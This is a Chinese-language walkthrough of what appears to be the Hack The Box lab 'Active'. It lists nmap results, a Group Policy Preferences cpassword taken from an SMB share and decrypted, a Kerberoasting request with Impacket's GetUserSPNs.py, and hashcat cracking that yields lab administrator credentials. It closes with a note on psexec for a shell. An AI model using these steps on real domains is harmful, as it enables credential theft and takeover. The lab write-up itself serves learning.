


# 信息收集

## nmap

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-15 08:46:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-15T08:47:21
|_  start_date: 2025-04-15T08:43:29
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required


```

## SMB

将smb中可读的文件都下载下来，最终`GTP.INI`,`Groups.xml`,`Registry.pol`,nmap-ports是nmap扫描时输出的扫描结果


Groups.xml中有一些敏感信息

```
Groups.xml

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

`groups.xml`是`windows`域环境中的组策略设置用户配置文件

泄露了域用户名称，密码；GPP 使用一个 **硬编码的 AES 密钥** 对密码进行加密，这个密钥是公开的，可以解开

```
name="active.htb\SVC_TGS"

cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

gpp-decrypt工具可以解密，kali自带该工具


```
SVC_TGS:GPPstillStandingStrong2k18
```

使用该账号密码可以访问到更多的smb共享目录



## 横向移动

```
python3 GetUserSPNs.py  -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile SPNS

```

使用 Impacket 中的 `GetUserSPNs.py` 脚本来获取与普通用户帐户关联的服务用户名列表，并且得到ticket

ticket使用hashcat指定加密方式为13100

```
hashcat -a 0 -m 13100 SPNS /usr/share/wordlists/rockyou.txt

hashcat -a 0 -m 13100 SPNS /usr/share/wordlists/rockyou.txt --show 来查看破解之后的密码
```



```
Administrator:Ticketmaster1968
```

有了管理员的账号密码可以访问smb，也可以使用psexec获得一个远程root shell

